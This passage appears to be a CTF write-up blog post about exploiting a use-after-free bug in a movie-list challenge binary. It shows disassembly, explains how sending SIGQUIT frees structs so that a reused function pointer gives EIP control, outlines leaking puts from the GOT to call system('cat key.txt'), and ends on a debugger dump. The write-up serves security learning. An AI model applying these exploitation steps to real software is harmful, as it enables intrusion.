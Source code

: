 
This function, would give us full control over arrays of movies, as we could free movies, and reuse freed memory to be used later during printing movie:

<pre class="brush: plain; title: ; notranslate" title="">.text:08048BFA                 mov     eax, [ebp+index]
.text:08048BFD                 mov     eax, ds:g_movie_array.fn_moviedetails[eax*4]
.text:08048C04                 test    eax, eax
.text:08048C06                 jz      short loc_8048C23
.text:08048C08                 mov     eax, [ebp+index]
.text:08048C0B                 mov     eax, ds:g_movie_array.fn_moviedetails[eax*4]
.text:08048C12                 mov     eax, [eax+movie_list.fn_moviedetails]
.text:08048C14                 mov     edx, [ebp+index]
.text:08048C17                 mov     edx, ds:g_movie_array.fn_moviedetails[edx*4]
.text:08048C1E                 mov     [esp], edx
.text:08048C21                 call    eax      &lt;-- if we free we could reuse movie.fn_moviedetails
 to execute our code.
</pre>

Than we saw something interesting:

<pre class="brush: plain; title: ; notranslate" title="">.text:08048CA5                 mov     dword ptr [esp+4], offset handler ; handler
.text:08048CAD                 mov     dword ptr [esp], 3 ; sig
.text:08048CB4                 call    _signal         ; SIGQUIT
</pre>

We can invoke free on all lists by sending signal 3 to the process, so we can actually free structs. When we run into it, in a few sec we had working poc:** @__suto** replied on skype : 0&#215;41414141 , and at the same time I replied with 0&#215;61616161 so we knew we have eip control. Now I&#8217;ll try to explain how we got to this point. We found also way to leak address of puts from GOT thus we can recalculate system address and call system(&#8220;cat key.txt&#8221;), as this point we handed POC to **xichzo** which soon got key, and we got 550 <img src="http://vnsec-new.cloudapp.net/wp/wp-includes/images/smilies/icon_smile.gif" alt=":)" class="wp-smiley" /> 

Leaking address is something we didn&#8217;t manage to do, as application can&#8217;t be piped to receive data in real time, eg. pipe is flushed only when process dies, thus even if we leak address it wouldn&#8217;t be too much use, as on next run address would be different. So here we go for explanation of our use-after-free exploit:

Break after 1st malloc when adding movie:

<pre class="brush: plain; title: ; notranslate" title="">--------------------------------------------------------------------------[regs]
 EAX: 0x0804C008  EBX: 0xB7FC3000  ECX: 0xB7FC3440  EDX: 0x0804C008  o d I t S z a P c
 ESI: 0x00000000  EDI: 0x00000000  EBP: 0xBFFFF178  ESP: 0xBFFFF150  EIP: 0x08048A00
 CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007B
--------------------------------------------------------------------------1
=&gt; 0x8048a00:    mov    DWORD PTR [ebp-0x10],eax
 0x8048a03:    cmp    DWORD PTR [ebp-0x10],0x0
 0x8048a07:    jne    0x8048a15
 0x8048a09:    mov    DWORD PTR [esp],0x8048e93
 0x8048a10:    call   0x80486fc
 0x8048a15:    mov    eax,DWORD PTR [ebp-0x10]
 0x8048a18:    mov    DWORD PTR [esp],eax
 0x8048a1b:    call   0x804880a
--------------------------------------------------------------------------------

Breakpoint 1, 0x08048a00 in ?? ()
</pre>
